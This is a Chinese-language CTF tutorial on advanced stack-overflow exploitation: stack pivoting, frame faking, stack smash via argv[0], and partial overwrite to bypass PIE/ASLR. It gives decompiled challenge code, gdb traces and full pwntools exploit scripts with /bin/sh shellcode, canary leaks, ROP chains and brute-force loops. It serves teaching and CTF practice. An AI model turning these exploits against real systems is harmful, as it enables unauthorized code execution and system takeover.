





# 花式栈溢出技巧

## stack pivoting

劫持栈指针指向攻击者所能控制的内存处，然后再在相应的位置进行 ROP。一般来说，我们可能在以下情况需要使用 stack pivoting

- 可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链
- 开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。
- 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用

此外，利用 stack pivoting 有以下几个要求

- 可以控制程序执行流。

- 可以控制 sp 指针。一般来说，控制栈指针会使用 ROP，常见的控制栈指针的 gadgets 一般是`pop rsp/esp`

此外，还有libc_csu_init 中的 gadgets



此外，还有更加高级的 fake frame。

- 存在可以控制内容的内存，一般有如下
- bss 段。由于进程按页分配内存，分配给 bss 段的内存大小至少一个页 (4k，0x1000) 大小。然而一般 bss 段的内容用不了这么多的空间，并且 bss 段分配的内存页拥有读写权限。
- heap。但是这个需要我们能够泄露堆地址。

### X-CTF Quals 2016 - b0verfl0w

32位程序，溢出点在vul()中

```c++
    signed int vul()
    {
    char s; // [esp+18h] [ebp-20h]

    puts("\n======================");
    puts("\nWelcome to X-CTF 2016!");
    puts("\n======================");
    puts("What's your name?");
    fflush(stdout);
    fgets(&s, 50, stdin);
    printf("Hello %s.", &s);
    fflush(stdout);
    return 1;
    }
```

但是其所能溢出的字节就只有 50-0x20-4=14 个字节，能控制得字节太少，考虑stack pivoting 。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置 shellcode 并执行。基本利用思路如下：

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode 处

因为栈上的相对偏移是固定的，所以可以通过栈溢出对esp进行操作，使其指向shellcode处



payload布置：`shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp`

通过计算：`length = size(shellcode+padding)+size(fake ebp)+size(0x08048504) = 0x28`
所以需要执行的指令为

```asm
    sub esp,0x28
    jmp esp
```

```python
    from pwn import *
    sh = process('./b0verfl0w')

    shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode_x86 += "\x0b\xcd\x80"

    sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
    jmp_esp = 0x08048504
    payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b'
    payload += 'bbbb'   # 填充ebp
    payload += p32(jmp_esp) # ret => pop eip,此时esp指向sub_esp_jmp处
    payload += sub_esp_jmp
    sh.sendline(payload)
    sh.interactive()
```

### EkoPartyCTF 2016 fuckzing-exploit-200

## frame faking

同时控制 EBP 与 EIP，在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其 `payload = buffer padding|fake ebp|leave ret addr|`

### 2018 安恒杯 over

```c++
    int sub_400676()
    {
    char buf; // [rsp+0h] [rbp-50h]

    memset(&buf, 0, 0x50uLL);
    putchar('>');
    read(0, &buf, 0x60uLL);
    return puts(&buf);
    }
```

函数的溢出点在函数sub_400676()中，read 能读入 96 位, 但 buf 的长度只有 80, 因此能覆盖 rbp 以及 ret addr 但也只能覆盖到 rbp 和 ret addr, 因此也只能通过同时控制 rbp 以及 ret addr 来进行 rop 了

当输入的长度为 80 时, 由于 read 并不会给输入末尾补上 '\0', rbp 的值就会被 puts 打印出来，leak 出栈地址后, 就可以通过控制 rbp 为栈上的地址 ret addr 为 leave ret 的地址来实现控制程序流程了。由于利用过程中栈的结构会发生变化, 所以一些关键的偏移还需要通过调试来确定

```python
    from pwn import *
    context.binary = "./over.over"

    def DEBUG(cmd):
        raw_input("DEBUG: ")
        gdb.attach(io, cmd)

    io = process("./over.over")
    elf = ELF("./over.over")
    libc = elf.libc

    io.sendafter(">", 'a' * 80)
    stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
    success("stack -> {:#x}".format(stack))


    #  DEBUG("b *0x4006B9\nc")
    io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
    libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
    success("libc.address -> {:#x}".format(libc.address))

    pop_rdi_ret=0x400793
    '''
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
    0x00000000000f5279 : pop rdx ; pop rsi ; ret
    '''
    pop_rdx_pop_rsi_ret=libc.address+0xf5279


    payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

    io.sendafter(">", payload)

    io.interactive()

    ## 类似解
    from pwn import *
    from LibcSearcher import *
    context.binary = './over'
    io = process("./over")
    elf = ELF("./over")


    io.sendafter(">", 'a' * 80)
    stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00')) - 0x70
    success("stack -> {:#x}".format(stack))

    sleep(1)
    io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
    puts_addr = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00'))
    success("puts_addr -> {:#x}".format(puts_addr))

    pop_rdi_ret=0x400793

    libc = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.success('system_addr = %#x, binsh_addr = %#x'%(system_addr,binsh_addr))

    payload=flat(['22222222', pop_rdi_ret, binsh_addr, system_addr, (80 - 4*8 ) * '2', stack - 0x30, 0x4006be])

    io.sendafter(">", payload)

    io.interactive()
```

源程序没有开启NX的情况也可以通过写入shellcode的方式

```python
    from pwn import *
    context.binary = './over'
    io = process("./over")
    elf = ELF("./over")


    io.sendafter(">", 'a' * 80)
    stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00')) - 0x70
    success("stack -> {:#x}".format(stack))

    shellcode = 'a'*8 + "\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"
    # shellcode = 'a'*8 + asm(shellcraft.sh())
    payload = shellcode.ljust(0x50,'1') + p64(stack) + p64(0x4006be)

    io.sendafter('>',payload)
    io.interactive()
```

## Stack smash

在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 __stack_chk_fail 函数来打印 `argv[0]` 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

```c++
    void __attribute__ ((noreturn)) __stack_chk_fail (void)
    {
    __fortify_fail ("stack smashing detected");
    }
    void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
    {
    /* The loop is added only to keep gcc happy.  */
    while (1)
        __libc_message (2, "*** %s ***: %s terminated\n",
                        msg, __libc_argv[0] ?: "<unknown>");
    }
```

如果利用栈溢出覆盖`argv[0]` 为我们想要输出的字符串的地址，那么在 __fortify_fail 函数中就会输出我们想要的信息。

### 2015 32C3 CTF readme

```c++
    unsigned __int64 sub_4007E0()
    {
    __int64 v0; // rbx
    int v1; // eax
    __int64 v3; // [rsp+0h] [rbp-128h]
    unsigned __int64 v4; // [rsp+108h] [rbp-20h]

    v4 = __readfsqword(0x28u);
    __printf_chk(1LL, "Hello!\nWhat's your name? ");
    if ( !_IO_gets(&v3) )
    LABEL_9:
        _exit(1);
    v0 = 0LL;
    __printf_chk(1LL, "Nice to meet you, %s.\nPlease overwrite the flag: ");
    while ( 1 )
    {
        v1 = _IO_getc(stdin);
        if ( v1 == -1 )
        goto LABEL_9;
        if ( v1 == 10 )
        break;
        byte_600D20[v0++] = v1;
        if ( v0 == 32 )
        goto LABEL_8;
    }
    memset((void *)((signed int)v0 + 6294816LL), 0, (unsigned int)(32 - v0));
    LABEL_8:
    puts("Thank you, bye!");
    return __readfsqword(0x28u) ^ v4;
    }
```

程序在 `_IO_gets((__int64)&v4);` 存在栈溢出
此外，程序中还提示要 overwrite flag。而且发现程序很有意思的在 while 循环之后执行了这条语句`memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));`

又看了看对应地址的内容，可以发现如下内容，说明程序的 flag 就在这里

```asm
    .data:0000000000600D20 ; char aPctfHereSTheFl[]
    .data:0000000000600D20 aPctfHereSTheFl db 'PCTF{Here',27h,'s the flag on server}',0
```

但是如果我们直接利用栈溢出输出该地址的内容是不可行的，这是因为我们读入的内容 `byte_600D20[v1++] = v2;`也恰恰就是该块内存，这会直接将其覆盖掉,不过在 ELF 内存映射时，bss 段会被映射两次，所以我们可以使用另一处的地址来进行输出，可以使用 gdb 的 find 来进行查找


flag的地址找到了，接下来就需要确定到`argv[0]`的偏移了
在main函数入口处下断，运行程序：

```s
    gdb-peda$ b *0x4006D0
    Breakpoint 1 at 0x4006d0
    gdb-peda$ r
    Starting program: /home/nop/Desktop/readme.bin

    [----------------------------------registers-----------------------------------]
    RAX: 0x4006d0 (sub    rsp,0x8)
    RBX: 0x0
    RCX: 0x0
    RDX: 0x7fffffffde58 --> 0x7fffffffe214 ("LC_PAPER=zh_CN.UTF-8")
    RSI: 0x7fffffffde48 --> 0x7fffffffe1f7 ("/home/nop/Desktop/readme.bin")
    RDI: 0x1
    RBP: 0x4008b0 (push   r15)
    RSP: 0x7fffffffdd68 --> 0x7ffff7a2d830 (<__libc_start_main+240>:    mov    edi,eax)
    RIP: 0x4006d0 (sub    rsp,0x8)
    R8 : 0x400920 (repz ret)
    R9 : 0x7ffff7de7ac0 (<_dl_fini>:    push   rbp)
    R10: 0x846
    R11: 0x7ffff7a2d740 (<__libc_start_main>:   push   r14)
    R12: 0x4006ee (xor    ebp,ebp)
    R13: 0x7fffffffde40 --> 0x1
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    0x4006c0 <_IO_gets@plt>:
        jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
    0x4006c6 <_IO_gets@plt+6>:  push   0x9
    0x4006cb <_IO_gets@plt+11>: jmp    0x400620
    => 0x4006d0:    sub    rsp,0x8
    0x4006d4:   mov    rdi,QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
    0x4006db:   xor    esi,esi
    0x4006dd:   call   0x400660 <setbuf@plt>
    0x4006e2:   call   0x4007e0
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdd68 --> 0x7ffff7a2d830 (<__libc_start_main+240>:   mov    edi,eax)
    0008| 0x7fffffffdd70 --> 0x1
    0016| 0x7fffffffdd78 --> 0x7fffffffde48 --> 0x7fffffffe1f7 ("/home/nop/Desktop/readme.bin")
    0024| 0x7fffffffdd80 --> 0x1f7ffcca0
    0032| 0x7fffffffdd88 --> 0x4006d0 (sub    rsp,0x8)
    0040| 0x7fffffffdd90 --> 0x0
    0048| 0x7fffffffdd98 --> 0xadfe2ecc6e4d6e33
    0056| 0x7fffffffdda0 --> 0x4006ee (xor    ebp,ebp)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value

    Breakpoint 1, 0x00000000004006d0 in ?? ()
    gdb-peda$
```

0x7fffffffde48指向程序名，那么0x7fffffffde48即我们需要的地址。



读入的字符串的起始地址其实就是调用 __IO_gets 之前的 rsp，把断点下在`call __IO_gets`处

```s
    gdb-peda$ b *0x0040080E
    Breakpoint 2 at 0x40080e
    gdb-peda$ c
    Continuing.
    Hello!
    What is your name?
    [----------------------------------registers-----------------------------------]
    RAX: 0x19
    RBX: 0x0
    RCX: 0x7ffff7b042c0 (<__write_nocancel+7>: cmp    rax,0xfffffffffffff001)
    RDX: 0x7ffff7dd3780 --> 0x0
    RSI: 0x19
    RDI: 0x7fffffffdc30 --> 0x1718a92d3df
    RBP: 0x4008b0 (push   r15)
    RSP: 0x7fffffffdc30 --> 0x1718a92d3df
    RIP: 0x40080e (call   0x4006c0 <_IO_gets@plt>)
    R8 : 0x7ffff7fd8700 (0x00007ffff7fd8700)
    R9 : 0x19
    R10: 0x400934 ("Hello!\nWhat's your name? ")
    R11: 0x246
    R12: 0x4006ee (xor    ebp,ebp)
    R13: 0x7fffffffde40 --> 0x1
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    0x400804:   or    eax,eax
    0x400806:   call   0x4006b0 <__printf_chk@plt>
    0x40080b:   mov    rdi,rsp
    => 0x40080e:    call   0x4006c0 <_IO_gets@plt>
    0x400813:   test   rax,rax
    0x400816:   je     0x40089f
    0x40081c:   mov    rdx,rsp
    0x40081f:   mov    esi,0x400960
    Guessed arguments:
    arg[0]: 0x7fffffffdc30 --> 0x1718a92d3df
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdc30 --> 0x1718a92d3df
    0008| 0x7fffffffdc38 --> 0x7ffff7ffd9d8 --> 0x7ffff7dd7000 --> 0x10102464c457f
    0016| 0x7fffffffdc40 --> 0x7ffff7fd8700 (0x00007ffff7fd8700)
    0024| 0x7fffffffdc48 --> 0x0
    0032| 0x7fffffffdc50 --> 0x7ffff7ffea88 --> 0x7ffff7ffe9b8 --> 0x7ffff7ffe728 --> 0x7ffff7ffe700 --> 0x7ffff7ffa000 (jg     0x7ffff7ffa047)
    0040| 0x7fffffffdc58 --> 0x7fffffffdc90 --> 0x0
    0048| 0x7fffffffdc60 --> 0x380
    0056| 0x7fffffffdc68 --> 0x7fffffffdc80 --> 0x2
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value

    Breakpoint 2, 0x000000000040080e in ?? ()
    gdb-peda$ print $rsp
    $2 = (void *) 0x7fffffffdc30
    gdb-peda$
```

可以得到rsp的值为0x7fffffffdc30，所以偏移量`offset = 0x7fffffffde48- 0x7fffffffdc30 = 0x218(536)

```python
    from pwn import *
    context.log_level = 'debug'
    smash = ELF('./readme.bin')
    if args['REMOTE']:
        sh = remote('pwn.jarvisoj.com', 9877)   # 该题目在 jarvisoj 上有复现
    else:
        sh = process('./readme.bin')
    argv_addr = 0x00007fffffffdc58
    name_addr = 0x7fffffffda40
    flag_addr = 0x600D20
    another_flag_addr = 0x400d20
    payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
    sh.recvuntil('name? ')
    sh.sendline(payload)
    sh.recvuntil('flag: ')
    sh.sendline('bb')
    data = sh.recv()
    sh.interactive()
```

## 栈上的partial overwrite

在开启了随机化（ASLR，PIE）后, 无论高位的地址如何变化，低 12 位的页内偏移始终是固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护。

### 2018 - 安恒杯 - babypie

```c++
    __int64 sub_960()
    {
    __int128 buf; // [rsp+0h] [rbp-30h]
    __int128 v2; // [rsp+10h] [rbp-20h]
    unsigned __int64 v3; // [rsp+28h] [rbp-8h]

    v3 = __readfsqword(0x28u);
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(_bss_start, 0LL, 2, 0LL);
    buf = 0uLL;
    v2 = 0uLL;
    puts("Input your Name:");
    read(0, &buf, 0x30uLL);
    printf("Hello %s:\n", &buf, buf, v2);
    read(0, &buf, 0x60uLL);
    return 0LL;
    }
```

溢出点在sub_960中，此外程序有一个后门函数，可以直接调用获取shell。由于开启了PIE，所以只能知道后门函数的低12位地址为0xA3E



可以知道，buf到canary的偏移为`0x30-0x8`,因为printf 使用 %s 时, 遇到 \0 结束, 所以覆盖 canary 低位为非 0 ，即`'a'*(0x30-0x8+1)`
打印出canary后，通过第二个read函数控制返回地址到后门函数，拿到shell

```python
    from pwn import *

    getshell = 0xaa3e

    while True:
        p = process('../Desktop/babypie')
        # gdb.attach(p)
        p.sendafter('Name:\n','a'*(0x30-0x8)+'b')
        p.recvuntil('b')
        canary = u64('\x00'+p.recvn(7))
        success('canary = %#x',canary)

        payload = 'A'*(0x30-0x8) + p64(canary) + 'B'*8 + p64(getshell)[:2]
        p.sendafter('\n',payload)
        try:
            p.recv(timeout=1)
            sleep(1)
            p.interactive()
            break
        except EOFError:
            p.close()
```

### 2018-XNUCA-gets

```c++
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 v4; // [rsp+0h] [rbp-18h]

  gets(&v4, a2, a3);
  return 0LL;
}
```

程序很简单，溢出点也很明显，而且只是开启了NX和RELRO保护
调试可以发现栈上存这两个函数的返回地址

```s
    [-------------------------------------code-------------------------------------]
    0x400429:    call   0x400410
    0x40042e:    xor    eax,eax
    0x400430:    add    rsp,0x18
    => 0x400434:    ret
    0x400435:    nop    WORD PTR cs:[rax+rax*1+0x0]
    0x40043f:    nop
    0x400440:    xor    ebp,ebp
    0x400442:    mov    r9,rdx
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdd78 --> 0x7ffff7a2d830 (<__libc_start_main+240>:   mov    edi,eax)
    0008| 0x7fffffffdd80 --> 0x1
    0016| 0x7fffffffdd88 --> 0x7fffffffde58 --> 0x7fffffffe203 ("/home/nop/Desktop/gets")
    0024| 0x7fffffffdd90 --> 0x1f7ffcca0
    0032| 0x7fffffffdd98 --> 0x400420 (sub    rsp,0x18)
    0040| 0x7fffffffdda0 --> 0x0
    0048| 0x7fffffffdda8 --> 0x16af72c6940f0984
    0056| 0x7fffffffddb0 --> 0x400440 (xor    ebp,ebp)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value

    Breakpoint 1, 0x0000000000400434 in ?? ()
    gdb-peda$ stack 25
    0000| 0x7fffffffdd78 --> 0x7ffff7a2d830 (<__libc_start_main+240>:   mov    edi,eax)
    0008| 0x7fffffffdd80 --> 0x1
    0016| 0x7fffffffdd88 --> 0x7fffffffde58 --> 0x7fffffffe203 ("/home/nop/Desktop/gets")
    0024| 0x7fffffffdd90 --> 0x1f7ffcca0
    0032| 0x7fffffffdd98 --> 0x400420 (sub    rsp,0x18)
    0040| 0x7fffffffdda0 --> 0x0
    0048| 0x7fffffffdda8 --> 0x16af72c6940f0984
    0056| 0x7fffffffddb0 --> 0x400440 (xor    ebp,ebp)
    0064| 0x7fffffffddb8 --> 0x7fffffffde50 --> 0x1
    0072| 0x7fffffffddc0 --> 0x0
    0080| 0x7fffffffddc8 --> 0x0
    0088| 0x7fffffffddd0 --> 0xe9508db9258f0984
    0096| 0x7fffffffddd8 --> 0xe9509d03315f0984
    0104| 0x7fffffffdde0 --> 0x0
    0112| 0x7fffffffdde8 --> 0x0
    0120| 0x7fffffffddf0 --> 0x0
    0128| 0x7fffffffddf8 --> 0x7fffffffde68 --> 0x7fffffffe21a ("LC_PAPER=zh_CN.UTF-8")
    0136| 0x7fffffffde00 --> 0x7ffff7ffe168 --> 0x0
    0144| 0x7fffffffde08 --> 0x7ffff7de77db (<_dl_init+139>:    jmp    0x7ffff7de77b0 <_dl_init+96>)
    0152| 0x7fffffffde10 --> 0x0
    0160| 0x7fffffffde18 --> 0x0
    0168| 0x7fffffffde20 --> 0x400440 (xor    ebp,ebp)
    0176| 0x7fffffffde28 --> 0x7fffffffde50 --> 0x1
    0184| 0x7fffffffde30 --> 0x0
    0192| 0x7fffffffde38 --> 0x400469 (hlt)
```

其中 __libc_start_main+240 位于 libc 中，_dl_init+139 位于 ld 中

```s
    0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 ---p  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 r--p  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p  /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p  mapped
    0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp  /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fd7000 0x00007ffff7fda000 rw-p  mapped
    0x00007ffff7ff7000 0x00007ffff7ffa000 r--p  [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp  [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 r--p  /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p  /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 rw-p  mapped
    0x00007ffffffde000 0x00007ffffffff000 rw-p  [stack]
    0xffffffffff600000 0xffffffffff601000 r-xp  [vsyscall]
```

libc 的基地址 0x7ffff7a0d000,一般要覆盖字节的话，至少要覆盖 1 个半字节才能够获取跳到 onegadget。然而，程序中读取的时候是 gets读取的，也就意味着字符串的末尾肯定会存在\x00,所以至少会覆盖三个字节，而__libc_start_main+240 的地址 0x7ffff7a2d830，如果覆盖 3 个字节，那么就是 0x7ffff700xxxx，已经小于了 libc 的基地址了，就不能指向libc中gadget的地址了。
__libc_start_main+240 的地址 0x7ffff7a2d830，如果覆盖 3 个字节，那么就是 0x7ffff700xxxx，已经小于了 libc 的基地址了
栈上_dl_init+139，即为0x7ffff700xxxx。通过 vmmap 可以发现libc位于 ld 的低地址方向，那么在随机化的时候，很有可能 libc 的第 3 个字节是为\x00 的。比如，两者之间的偏移为 `0x7ffff7dd7000-0x7ffff7a0d000=0x3ca000` ,如果ld被加载到 0x7ffff73ca000 ，则显然 libc 的起始地址就是0x7ffff7000000，那么通过覆盖 _dl_init+139的地址低12位就可以得到 0x7ffff700xxxx,其中“xxxx”为正常输入，“00”为gets添加的用作截断的。
先尝试覆盖低三字节

```python
    from pwn import *

    if args['DEBUG']:
        context.log_level = 'debug'

    pop_chain = 0x000000000040059b # pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    # offset = 0x7fffffffde08 - 0x7fffffffdd78 = 144

    for i in range(0x1000): # 改写 _dl_init+139的低两字节
        p = process('./gets')
        gdb.attach(p)
        try:
            payload = 'A'*0x18 + p64(pop_chain) # main函数结束后的ret ==> rsp+1 ==>8
            for j in range(2):
                payload += 'a'*40 + p64(pop_chain)  # rsp+(40/8 + 1(ret)) ==> 48
            payload += 'a'*40   # 40(a)*3 + 8*3(p64(pop_chain)) = 144
            payload += p16(i)   # 填充_dl_init+139低16位
            p.sendline(payload)
            print p.recv()
            p.interactive()
            p.close()
        except Exception:
            p.close()
```

开启dbg的情况下可以看到read函数的地址：


```s
    [*] Switching to interactive mode
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fc349f997e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x85d80)[0x7fc349fa7d80]
    /lib/x86_64-linux-gnu/libc.so.6(realloc+0x22f)[0x7fc349fa68ef]
    /lib/x86_64-linux-gnu/libc.so.6(+0xde228)[0x7fc34a000228]
    [0x7ffd202b8318]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1569840                            /home/nop/Desktop/gets
    00600000-00601000 r--p 00000000 08:01 1569840                            /home/nop/Desktop/gets
    00601000-00602000 rw-p 00001000 08:01 1569840                            /home/nop/Desktop/gets
    00d0e000-00d30000 rw-p 00000000 00:00 0                                  [heap]
    7fc344000000-7fc344021000 rw-p 00000000 00:00 0
    7fc344021000-7fc348000000 ---p 00000000 00:00 0
    7fc349d0c000-7fc349d22000 r-xp 00000000 08:01 1313730                    /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fc349d22000-7fc349f21000 ---p 00016000 08:01 1313730                    /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fc349f21000-7fc349f22000 rw-p 00015000 08:01 1313730                    /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fc349f22000-7fc34a0e2000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a0e2000-7fc34a2e2000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a2e2000-7fc34a2e6000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a2e6000-7fc34a2e8000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
    7fc34a2e8000-7fc34a2ec000 rw-p 00000000 00:00 0
    7fc34a2ec000-7fc34a312000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fc34a4f1000-7fc34a4f4000 rw-p 00000000 00:00 0
    7fc34a510000-7fc34a511000 rw-p 00000000 00:00 0
    7fc34a511000-7fc34a512000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fc34a512000-7fc34a513000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
    7fc34a513000-7fc34a514000 rw-p 00000000 00:00 0
    7ffd20298000-7ffd202b9000 rw-p 00000000 00:00 0                          [stack]
    7ffd203a9000-7ffd203ac000 r--p 00000000 00:00 0                          [vvar]
    7ffd203ac000-7ffd203ae000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

脚本运行时出现错误，但是可以通过`(realloc+0x22f)[0x7fc349fa68ef]`获取libc版本

```s
    >>> from LibcSearcher import *
    >>> libc=LibcSearcher('realloc',0x7fc349fa68ef-0x22f)
    >>> l=0x7fc349fa68ef-0x22f-libc.dump('realloc')
    [+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
    >>>
```



爆破拿到shell

```python
    from pwn import *

    if args['DEBUG']:
        context.log_level = 'debug'

    pop_chain = 0x000000000040059b # pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    # offset = 0x7fffffffde08 - 0x7fffffffdd78 = 144
    # one_gadget = 0x45216

    for i in range(0x1000):
        p = process('./gets',timeout=2)
        # gdb.attach(p)
        try:
            payload = 'A'*0x18 + p64(pop_chain)
            for j in range(2):
                payload += 'a'*40 + p64(pop_chain)
            payload += 'a'*40
            payload += p16(0x216)
            p.sendline(payload)
            p.sendline('ls')
            print p.recv()
            p.interactive()
            p.close()
        except Exception:
            p.close()
```
